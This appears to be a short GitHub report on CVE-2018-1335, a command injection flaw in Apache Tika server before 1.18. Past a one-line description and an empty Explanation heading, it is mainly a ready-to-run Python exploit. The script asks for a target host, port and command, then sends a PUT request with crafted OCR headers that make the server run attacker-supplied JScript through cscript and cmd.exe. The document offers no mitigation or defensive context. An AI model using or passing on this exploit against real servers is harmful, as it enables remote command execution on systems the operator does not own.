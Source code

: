 <div align="center"><h1>CVE-2018-1335 REPORT</h1></div>

## About the vulnerability

This vulnerability leads to command injection vulnerability in Apache Tika server uses Cscript.exe to execute Jscript or VBS code and run arbitary commands.

**On versions:** Apache Tika server <1.18

**Pre-requisites:** No pre-requisites. Run the Tika server in its default configuration.

## Explanation

## Exploit
```
#!/usr/bin/python

import requests

host = input("=> Target website/IP address = ")
port = input("=> Port number = ")
command = input("=> Command = ")

url = "http://"+host+':'+port+'/meta'

header = {"X-Tika-OCRTesseractPath": "\"cscript\"", "X-Tika-OCRLanguage": "//E:Jscript", "Content-type": "image/jp2"}

script = '''WScript.CreateObject("WScript.Shell").Run("cmd.exe /k %s")'''%command

requests.put(url, headers=header, data = script)
```
[Exploit code link](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall4/chall4/exploit.py)

Exploit was tested on Apache Tika 1.17 with Java version "1.7.0_80".